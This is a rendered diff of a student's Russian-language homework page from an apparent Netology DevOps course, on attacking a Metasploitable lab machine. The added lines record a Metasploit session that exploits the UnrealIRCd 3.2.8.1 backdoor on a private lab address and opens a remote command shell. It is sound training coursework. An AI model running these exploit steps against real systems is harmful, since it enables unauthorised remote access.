

Before and after one commit to networksuperman/netology_dev_ops, a Markdown page: vuln_and_attacks/13_1.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/vuln_and_attacks/13_1.md
+++ b/vuln_and_attacks/13_1.md
@@ -13,17 +13,6 @@
 Приведите ответ в свободной форме.
 
 #### Ответ:
-
-### Задание 2
-Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.
-Запишите сеансы сканирования в Wireshark.
-Ответьте на следующие вопросы:
-Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
-Как отвечает сервер?
-Приведите ответ в свободной форме.
-
-#### Ответ:
-
 ```
 nmap -A 192.168.6.244
 Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 14:41 MSK
@@ -237,5 +226,27 @@ exit
 ```
 №2 - порт 6667 - UnrealIRCd 3.2.8.1 - Backdoor Command Execution
 ```
+search UnrealIRCd
+Matching Modules
+================
 
+   #  Name                                        Disclosure Date  Rank       Check  Description
+   -  ----                                        ---------------  ----       -----  -----------
+   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
+
+use exploit/unix/irc/unreal_ircd_3281_backdoor
+show options
+set RHOSTS 192.168.6.244
+run
+exploit
+set target 0
+exploit
+show payloads
+set payload 0
+exploit
+[*] Command shell session 2 opened (192.168.6.243:33973 -> 192.168.6.244:4444) at 2023-08-22 15:07:48 +0300
+uname
+Linux
+hostname
+metasploitable
 ```
````
Also changed, not shown: other parts of vuln_and_attacks/13_1.md (+76 -0 lines).
